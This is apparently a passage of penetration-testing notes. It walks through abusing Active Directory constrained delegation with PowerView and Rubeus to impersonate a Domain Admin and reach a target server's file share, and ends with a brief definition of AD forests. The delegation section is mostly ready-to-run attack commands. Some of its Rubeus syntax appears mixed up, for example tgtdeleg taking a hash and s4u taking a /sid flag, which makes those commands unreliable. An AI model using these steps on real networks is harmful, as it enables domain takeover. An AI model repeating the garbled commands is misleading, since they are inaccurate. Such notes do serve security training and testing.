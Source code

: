 ### **Summary: Combining `msDS-AllowedToDelegateTo` with S4U2Self/S4U2Proxy and Rubeus**

1. **Identify the service accounts** with constrained delegation using **PowerView**:
   - Look for accounts with the **`msDS-AllowedToDelegateTo`** property that lists services the account can delegate to.
   
   ```powershell
   Get-DomainUser -TrustedToAuth
   Get-DomainComputer -TrustedToAuth
   ```

2. **Generate a TGT** for the service account using **Rubeus** and the service account's **NTLM hash**.

   ```powershell
   Rubeus.exe tgtdeleg /user:<ServiceAccount> /rc4:<NTLM Hash> /domain:<DomainName> /dc:<DomainController> /nowrap
   ```

3. Use **S4U2Self** to impersonate a user (e.g., **Domain Admin**) using the service account's constrained delegation rights.

   ```powershell
   Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash> /domain:<DomainName> /sid:<DomainSID>
   ```

4. Use **S4U2Proxy** to request service tickets for services listed in the **`msDS-AllowedToDelegateTo`** property.

   ```powershell
   Rubeus.exe s4u /user:<ServiceAccount> /impersonateuser:<DomainAdmin> /rc4:<NTLM Hash> /domain:<DomainName> /sid:<DomainSID> /targetservice:cifs /targetserver:TargetServer
   ```

5. **Apply the ticket** and access the service as the impersonated user.

   ```powershell
   Rubeus.exe ptt /ticket:<TicketFile>
   ```

6. **Use the ticket** to access services like **CIFS**, **HTTP**, or others on behalf of the impersonated user.

   ```powershell
   net use \\TargetServer\ShareName
   ```

---


## AD Forests

### Active Directory (AD) Trusts and Forests

#### **1. Active Directory Forests**
- **Forest**: A collection of **domains** that share the same AD schema, configuration, and Global Catalog. The **forest** is the top-level container in an AD environment. All domains in the forest have access to resources within the forest, subject to permissions.
  - **Domain**: A logical grouping of network objects (like users, computers, and groups) that share a common database. Each domain has its own security policies but can share trust relationships with other domains in the forest.
